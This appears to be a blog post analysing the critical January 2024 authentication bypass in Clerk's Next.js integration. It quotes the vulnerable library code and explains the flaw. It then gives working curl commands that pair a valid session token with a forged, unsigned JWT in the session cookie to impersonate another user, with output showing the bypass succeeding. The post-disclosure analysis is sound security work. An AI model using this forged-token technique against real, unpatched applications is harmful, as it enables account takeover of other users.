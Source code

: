 ```yaml
---
title: "Investigating a major security vulnerability with Clerk's Next.js integration"
description: "Figuring out how a major auth provider fucked up."
date: "2024-01-26"
---
```


On January 12th 2024, Clerk [disclosed a major security vulnerability](https://clerk.com/changelog/2024-01-12) with their Next.js integration. Clerk is an auth provider similar to Auth0 and Firebase Auth, and Next.js is a popular JavaScript framework for building websites with React. The severity was immediately obvious. It allowed malicious actors to act on behalf of other users and had a CVSS score of 9.4 (critical).

But of course they didn't immediately publicly share the exact details of the exploit. It wasn't clear how bad the vulnerability actually was either. So instead of waiting for them to release their promised postmortem, I decided to figure it out myself. I thought it would be a fun challenge since I maintain an auth library as well.

_This was written (but not published) before their [postmortem]() was released._

## Deep dive

Reading through the vulnerability report, the only hint I could find was that it had something to do with the internals used by `auth()` and `getAuth()`. Both of these are server APIs that return the current user.

> The vulnerability impacts applications that use a Next.js backend. Specifically, those that call `auth()` in the App Router, or `getAuth()` in the Pages Router.

After looking through the source code, I found that `auth()` just used `getAuth()` under the hood, which was initialized with `createGetAuth()`. I also looked through the commit history between the patch (`4.29.3`) and the previous release (`4.29.2`), and saw that `createGetAuth()` had been rewritten. So this looked like a good place to start.

```ts
// @clerk/nextjs@4.29.2
// node_modules/@clerk/nextjs/dist/esm/server/getAuth.js
const createGetAuth = ({ debugLoggerName, noAuthStatusMessage }) =>
	withLogger(debugLoggerName, (logger) => {
		return (req, opts) => {
			const authStatus = getAuthKeyFromRequest(req, "AuthStatus");
			// ...
			if (!authStatus) {
				throw new Error(noAuthStatusMessage);
			}
			const options = {
				// ...
			};
			if (authStatus !== AuthStatus.SignedIn) {
				return signedOutAuthObject(options);
			}
			const jwt = parseJwt(req);
			const signedIn = signedInAuthObject(jwt.payload, { ...options, token: jwt.raw.text });
			// ...
			return signedIn;
		};
	});
```

One thing sticked out to me immediately - `parseJwt()`. Here I learned Clerk uses JWT (JSON Web Token) for session tokens.

For those that don't know what a JWT is, it's a token with some JSON data (such as user ID) and a signature embedded into it. The signature allows you to verify the integrity of the JSON data using a secret key. It's become popular as it allows you to validate tokens without a database - though it of course comes with its own downsides.

But `parseJwt()` just decoded the JWT payload. Why was it not validating the signature? That... can't be it right? Surely a multimillion dollar company won't make such a dumb mistake. And of course they didn't. Reading the code again, there was an `if` statement to check the current auth status before it decoded the token. That status was stored in... the request?! Apparently the current auth status among other attributes were either directly stored in the `Request` object or as a custom header.

```ts
// @clerk/nextjs@4.29.2
// node_modules/@clerk/nextjs/dist/esm/server/utils.js
function getAuthKeyFromRequest(req, key) {
	return (
		getCustomAttributeFromRequest(req, constants.Attributes[key]) ||
		getHeader(req, constants.Headers[key]) ||
		(key === "AuthStatus" ? getQueryParam(req, constants.SearchParams.AuthStatus) : void 0)
	);
}
```

So my guess was that they were validating the token somewhere, storing the current status to the request header as `AuthStatus`, and then parsing the token again when it needed to get the user if `AuthStatus` was set to `"signed-in"`.

And that was exactly what was happening because Clerk used Next.js middleware.

Middleware allows you to run code on every request as well as modify the request/response. But unlike middleware in every other framework, in Next.js it runs on the _Edge™_ - basically a CDN that runs your code. This means the server hosting the middleware can be different from rest of your application even for the same request. You can't just pass JS objects, such as the current user, between middleware and route handlers (where `auth()` is used). Instead, you have to add custom headers to the request.

```ts
// @clerk/nextjs@4.29.2
// node_modules/@clerk/nextjs/dist/esm/server/authMiddleware.js
const authMiddleware = (...args) => {
	// ...
	return withLogger("authMiddleware", (logger) => async (_req, evt) => {
		const req = withNormalizedClerkUrl(_req);
		// ...
		// checks if authenticated
		const requestState = await authenticateRequest(req, options);
		// ...
		// set custom headers to be read by `auth()`
		return decorateRequest(req, finalRes, requestState);
	});
};
```

So at first, I thought maybe the vulnerability was that you can just send a `AuthStatus` header with a parsable, but invalid JWT. Maybe you could trick `auth()` into thinking that the token had been already validated and it would parse the token without validating it.

```bash
# Header from valid session token
HEADER="eyJhbGciOiJSUzI1NiIsImNhdCI6IkNBVCIsImtpZCI6IktJRCIsInR5cCI6IkpXVCJ9"
# { "sub": "pwned" }
PAYLOAD="eyJzdWIiOiAicHduZWQifQ"
# Random signature
FAKE_TOKEN="$HEADER.$PAYLOAD.MA"

# X-Clerk-Status: AuthStatus header
curl https://localhost:3000 \
    -H "Cookie: __session=$FAKE_TOKEN;__client_uat=1705888300" \
    -H "User-Agent": "im a browser i swear" \
    -H "X-Clerk-Auth-Status": "signed-in"
```

But again, it wasn't that simple. The middleware will set the `AuthStatus` header even for unauthenticated request so you can't manually override it.

I was stuck for a while but then realized I missed something.

```ts
// @clerk/nextjs@4.29.2
// node_modules/@clerk/nextjs/dist/esm/server/getAuth.js
const parseJwt = (req) => {
	const cookieToken = getCookie(req, constants.Cookies.Session);
	const headerToken = getHeader(req, "authorization")?.replace("Bearer ", "");
	return decodeJwt(cookieToken || headerToken || "");
};
```

`parseJwt()` reads both the `Cookie ` and `Authorization` header at the same time. **_Holy shit._**

What if you send both a valid and fake session token at the same time?

```bash
VALID_TOKEN="<VALID_SESSION>"
# Header from valid session token
HEADER="eyJhbGciOiJSUzI1NiIsImNhdCI6IkNBVCIsImtpZCI6IktJRCIsInR5cCI6IkpXVCJ9"
# { "sub": "pwned" }
PAYLOAD="eyJzdWIiOiAicHduZWQifQ"
# Random signature
FAKE_TOKEN="$HEADER.$PAYLOAD.MA"

# X-Clerk-Status: AuthStatus header
curl http://localhost:3000/user \
    -H "Authorization: $VALID_TOKEN" \
    -H "Cookie: __session=$FAKE_TOKEN"
```

```ts
import { auth } from "@clerk/nextjs";

export async function GET() {
	const { userId } = auth();
	console.log(`User ID: ${userId}`);
	// ...
}
```

What get's logged?

```
User ID: pwned
```

Bingo. `parseJWT()` wrongly assumes _both_ the token in the `Authorization` header and the cookie had been validated, when in reality only _one_ had been validated. This is a big yikes. A very big one. You could essentially impersonate any user with this as long as you know their user ID, which could be public information.

If you'd like to see the exploit in action, I have a [reproduction](https://github.com/pilcrowOnPaper/clerk-nextjs-vulnerability) available on GitHub.

## Closing thoughts

Clerk has fixed this issue by passing the validated token alongside `AuhStatus` in the header, and parsing that token instead. They have also worked with hosting providers to prevent.

I do think this was preventable - don't use middleware at all. Next.js middleware is just not the place to handle auth. I don't like protecting routes with middleware in general, but Next.js comes with a big downside where you can't share data between middleware and route handlers directly. Clerk's attempt to go around that issue is what exactly caused the vulnerability.
